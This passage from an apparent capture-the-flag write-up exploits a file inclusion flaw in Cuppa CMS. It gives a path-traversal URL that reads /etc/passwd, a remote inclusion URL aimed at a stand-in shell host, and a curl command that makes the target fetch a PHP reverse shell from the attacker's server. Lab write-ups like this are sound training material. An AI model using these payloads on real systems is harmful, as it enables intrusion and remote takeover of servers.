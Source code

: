 ![cuppa](/assets/img/thm/skynet/cuppa.png)

Running searchsploit on cuppa, results in a local/remote file inclusion exploit.
`searchsploit cuppa`

![searchsploit](/assets/img/thm/skynet/searchsploit.png)

You can read the file directly with `searchsploit -x exploits/php/webapps/25971.txt` or get the file with the `-m` flag. up to you. 

Anyways, we can append `alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and see `passwd` file. Or... according the exploit file, we can upload our own shell with `alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?`

---

## Getting a shell

Great! So with this knowledge, we can set up our php reverse shell:[PHP shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and our listener, and setup our python server `python3 -m http.server`

The command we can use `curl http://<target IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<host IP>:8000/php-reverse-shell.php`
